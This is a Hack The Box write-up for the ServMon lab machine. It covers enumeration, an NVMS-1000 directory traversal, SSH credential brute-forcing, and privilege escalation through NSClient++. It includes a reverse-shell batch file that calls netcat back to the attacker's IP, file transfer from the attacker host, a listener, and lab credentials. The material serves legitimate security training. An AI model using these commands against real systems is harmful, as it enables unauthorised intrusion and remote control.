_[<-- Back](https://flast101.github.io/HTB-writeups)_

# ServMon
## 1- Overview

[](https://www.hackthebox.eu/home/machines/profile/240)   
Retire: 20 June 2020   
Writeup: 20 June 2020

### Summary

**2- Enumeration**   
2.1- nmap scan   
2.2- FTP Browsing      
2.3- NVMS-1000

**3- Exploitation**   

**4- Privilege Escalation**   
4.1- Post-Compromise Enumeration        
4.2- Post-Compromise Exploitation Part 1 - Web Server Connection       
4.3- Post-Compromise Exploitation Part 2 - Script Execution]        
4.4- Root.txt

* * * 
## 2- Enumeration
### 2.1- nmap scan
First things first, we begin with a `nmap` scan:
~~~
root@kali:~# nmap --reason -Pn -sV -sC --version-all 10.10.10.184

Nmap scan report for 10.10.10.184
Host is up, received user-set (0.059s latency).
Scanned at 2020-05-03 18:30:17 CEST for 366s
Not shown: 991 closed ports
Reason: 991 resets

PORT     STATE    SERVICE       REASON          VERSION
21/tcp   open     ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_01-18-20  12:05PM       <DIR>          Users
| ftp-syst:
|_  SYST: Windows_NT

22/tcp   open     ssh           syn-ack ttl 127 OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 b9:89:04:ae:b6:26:07:3f:61:89:75:cf:10:29:28:83 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDnC92+BCplDo38VDQIZzb7V3HN/OucvxF0VMDDoYShdUrpDUW6JcSR/Zr6cADbHy7eDLw2O+WW+M4SzH7kfpbTv3HvJ0z8iOsRs2nUrUint4CR/A2vYA9SFOk18FU0QUS0sByBIlemU0uiPxN+iRCcpFhZDj+eiVRF7o/XxNbExnhU/2n9MXwFS8XTYNeGqSLE1vV6KdpMfpJj/yey8gvEpDQTX5OQK+kkUHze3LXLyu/XVTKzfqUBMAP+IQ5F6ICWgaC1a+cx/D7C/aobCbqaXY+75t1mxbEMmm1Wv/42nVQxcT7tN2C3sds4VJkYgZKcBhsE0XdJcR9mTb1wWsg9
|   256 71:4e:6c:c0:d3:6e:57:4f:06:b8:95:3d:c7:75:57:53 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMToH2eB7rzpMZuvElpHYko/TXSsOfG8EXWQxmC/T4PCaAmVRDgJWEFMHgpRilSAKoOBlS2RHWNpMJldTFbWSVo=
|   256 15:38:bd:75:06:71:67:7a:01:17:9c:5c:ed:4c:de:0e (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILbqSRVLRJFVNhD0W0C5xB7b3RoJZZKdM+jSGryFWOQa

80/tcp   open     http          syn-ack ttl 127
| fingerprint-strings:
|   GetRequest, HTTPOptions, RTSPRequest:
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo:
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL:
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html).

135/tcp  open     msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open     netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds? syn-ack ttl 127

5666/tcp open     tcpwrapped    syn-ack ttl 127
6699/tcp open     tcpwrapped    syn-ack ttl 127
7001/tcp filtered afs3-callback no-response

Host script results:
|_clock-skew: -1s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 8714/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20065/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 11673/udp): CLEAN (Timeout)
|   Check 4 (port 62863/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-03T16:36:16
|_  start_date: N/A

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun May  3 18:36:23 2020 -- 1 IP address (1 host up) scanned in 366.44 seconds
~~~

First, what do we have here ?    
- FTP: nmap indicates that Anonymous login is allowed.      
- SSH: nothing particular, we may try to brute force it in case we find nothing else to exploit.    
- A website on port 80: we can run a `gobuster` or `dirbuster` to have a look on directories and files we may find.
- RPC and smb: it seems that null sessions are not allowed but smb is usually a good entry point.  
- Unknown services.

### 2.2- FTP Browsing
As we know we can login to the FTP, let's try it and login using credentials **anonymous:anonymous**:
~~~
root@kali:~# ftp 10.10.10.184

Connected to 10.10.10.184.
220 Microsoft FTP Service
Name (10.10.10.184:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:05PM       <DIR>          Users
226 Transfer complete.
ftp> cd Users
250 CWD command successful.
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:06PM       <DIR>          Nadine
01-18-20  12:08PM       <DIR>          Nathan
226 Transfer complete.
ftp> dir Nadine
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:08PM                  174 Confidential.txt
226 Transfer complete.
ftp> dir Nathan
200 PORT command successful.
125 Data connection already open; Transfer starting.
01-18-20  12:10PM                  186 Notes to do.txt
226 Transfer complete.
~~~

We download these 2 files and examine their content :



Conclusion:
- Passwords were not uploaded yet and are on Nathan's Desktop, which path is probably something like **C:\Users\Nathan\Desktop**.
- There are some secret files and they are not in SharePoint, and that means probably still on the machine accessible with Nathan's account.
- Public access to an application called **"NVMS"** is still available.
- There is another appliocation called **"NSClient"**.

Of course, we don't have Nathan's creds at the moment, but we can search for NVMS.

### 2.3- NVMS-1000

Googling information about NVMS, we find on the product page [http://en.tvt.net.cn/products/188.html](http://en.tvt.net.cn/products/188.html) that NVMS-1000 is a monitoring client which is specially designed for network video surveillance.        
In the "Features" section, we can read the following: "*Brand new user interface: Main panel as the unified entry, clearly classifies the main functions. Each function adopts dynamic Tab label for easy operation. Preview window has embedded toolbar and right-clicking menu; adopts accordion tree view control.*"  

We understand that there might be a web server and an interface installed on the machine. We easily find it by typing the url [http://10.10.10.184](http://10.10.10.184), which is redirected here:



* * * 
## 3- Exploitation

When we googled NVMS, we also noticed a link to EDB: **NVMS 1000 - Directory Traversal -** [https://www.exploit-db.com/exploits/47774](https://www.exploit-db.com/exploits/47774).

Using it is as simple as putting the request in `Burp Repeater` and clicking "send". Testing it with C:\windows\win.ini is nice, but we are interested in the passwords file we read about. Let's try if we can read this file using the exploit :



Beautiful !     

Now, we just have to put our users Nadine and Nathan in a file **"users.txt"**, the passwords in another file **"passwords.txt"**, and run `hydra` to test which creds are valid for a ssh login:



I love it when a plan comes together.

The creds we were looking for are **nadine:L1k3B1gBut7s@W0rk**   



* * * 
## 4- Privilege Escalation
### 4.1- Post-Compromise Enumeration
Before using a privesc reporting tool like `WinPEAS`, I usually check around if there is nothing obvious.     
I first look at the account permissions with **"whoami /all"** command, but nothing particular here. Nadine has a low-privileged account.     
Then I look at directories, and this time we can notice an unusual one: **"C:\Program Files\NSClient++"**. This one corresponds to what we previously read in Nathan's text file mentioning this application.

Google is our very best friend    (when they don't spy to much on their users in "private mode"  :joy: but whatever...).      
We find a link to its website [https://nsclient.org/](https://nsclient.org/).
"*NSClient++ is an agent designed originally to work with Nagios but has since evolved into a fully fledged monitoring agent which can be used with numerous monitoring tools (like Icinga, Naemon, OP5, NetEye Opsview etc).*"       
There is also a link to its documentation: [https://docs.nsclient.org](https://docs.nsclient.org).

Exploit-DB is our second best friend.        
Here is what we find: **NSClient++ 0.5.2.35 - Privilege Escalation -** [https://www.exploit-db.com/exploits/46802](https://www.exploit-db.com/exploits/46802)

### 4.2- Post-Compromise Exploitation Part 1 - Web Server Connection

Reading the exploit, there is a 7 steps process which requires an attacker to have local access to a system running NSClient++ with Web Server.

At the first step, it is written that we may grab the administrator password in the file _**C:\Program Files\NSClient++\nsclient.ini**_.
Let's have a look to this file :eyes: :
~~~
nadine@SERVMON C:\Program Files\NSClient++>type nsclient.ini

´╗┐# If you want to fill this file with all available options run the following command:
#   nscp settings --generate --add-defaults --load-all
# If you want to activate a module and bring in all its options use:
#   nscp settings --activate-module <MODULE NAME> --add-defaults
# For details run: nscp settings --help

; in flight - TODO
[/settings/default]

; Undocumented key
password = ew2x6SsGTxjRwXOT

; Undocumented key
allowed hosts = 127.0.0.1

...
~~~

OK. We have a password, and the "allowed hosts" parameter confirms that we should have a local access to the machine. So, how and where can we log into ?

As we have a local low-privileged SSH access, we may try using this compromised windows machine to set up a port forwarding.

With SSH, we access the windows machine on its port 22 and we want to get to the NSClient application port. But which port is it ?    
We look for port number on the documentation site and we get the information we need on https://docs.nsclient.org/reference/generic/WEBServer/#port-number:



Now, we know the port is 8443. We can use the following command to connect to the web application page:
~~~
root@kali:~# ssh -N -L 0.0.0.0:8443:127.0.0.1:8443 nadine@10.10.10.184
~~~

Let me explain:     
We execute an ssh command from our attack machine. We will not technically issue any ssh commands (**-N**) but will set up port forwarding (with **-L**), bind port 8443 on our local machine (**0.0.0.0:8443**) to port 8443 on the target (**127.0.0.1:8443**) and do this through a session to our original target **10.10.10.184**, logging in as **nadine**.

Once we understand this, we may want an easy way to use this command, like a "fire and forget" mode where you don't have to enter the password. Let's give a try to this one-liner:
~~~
root@kali:~# expect -c 'spawn ssh -N -L 0.0.0.0:8443:127.0.0.1:8443 nadine@10.10.10.184; expect "password:"; send "L1k3B1gBut7s@W0rk\r"; interact'
~~~

### 4.3- Post-Compromise Exploitation Part 2 - Script Execution
Now we can connect the application:



**We should keep an eye on the Exploit-DB page and follow instructions:**

"*2. Login and enable following modules including enable at startup and save configuration:     
-> CheckExternalScripts          
-> Scheduler* "

These modules are already enabled:



Now, the plan is to upload a script to get a reverse shell and make the NSClient application run it as Administrator.
"*3. Download nc.exe and evil.bat to c:\temp from attacking machine* "

We make a file including the code :
~~~
@echo off       
c:\temp\nc.exe 10.10.14.23 443 -e cmd.exe
~~~

And we set up a web server or a FTP server on our attacking machine to be able to transfer the files "nc.exe" and "evil.bat" on the target. If we choose to set up a FTP server:
~~~
root@kali:~# systemctl start pure-ftpd
~~~

From the target, we connect to the ftp and download the files:
~~~
nadine@SERVMON c:\Temp>ftp 10.10.14.23
Connected to 10.10.14.23.
220---------- Welcome to Pure-FTPd [privsep] [TLS] ----------
220-You are user number 1 of 50 allowed.
220-Local time is now 18:33. Server port: 21.
220-This is a private system - No anonymous login
220-IPv6 connections are also welcome on this server.
220 You will be disconnected after 15 minutes of inactivity.
504 Unknown command
User (10.10.14.23:(none)): fred
331 User fred OK. Password required
Password:
230 OK. Current directory is /
ftp> get evil.bat
200 PORT command successful
150 Connecting to port 51951
226-File successfully transferred
226 0.000 seconds (measured here), 417.48 Kbytes per second
ftp: 53 bytes received in 0.00Seconds 53000.00Kbytes/sec.
ftp> get nc.exe
200 PORT command successful
150-Connecting to port 51962
150 58.0 kbytes to download
226-File successfully transferred
226 0.068 seconds (measured here), 0.83 Mbytes per second
ftp: 59584 bytes received in 0.10Seconds 572.92Kbytes/sec.
ftp> quit

221-Goodbye. You uploaded 0 and downloaded 59 kbytes.
221 Logout.

nadine@SERVMON c:\Temp>dir  
 Volume in drive C has no label.
 Volume Serial Number is 728C-D22C

 Directory of c:\Temp

27/05/2020  17:34    <DIR>          .
27/05/2020  17:34    <DIR>          ..
27/05/2020  17:34                53 evil.bat
27/05/2020  17:34            59,584 nc.exe
               2 File(s)         59,637 bytes
               2 Dir(s)  27,869,081,600 bytes free
~~~

Next step of the process:      
"*4. Setup listener on attacking machine*"

~~~
root@kali:~# nc -nlvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
~~~

Then (we are almost done):      
"*5. Add script foobar to call evil.bat and save settings*"

We go in the **"Settings"** menu and click **"Add new"** to add our script "evil.bat":



Step 6 proposes to schedule the script, but clicking the **"Control"** button in the upper-right corner allows to restart NSClient and then we just have to run our script from the **"Queries"** tab using the **"myshell"** button (the one we previously set when adding our script):



### 4.4- Root.txt
We have our shell !!   



And we can grab the root.txt file:



Happy Hacking ! 

_[<-- Back](https://flast101.github.io/HTB-writeups)_
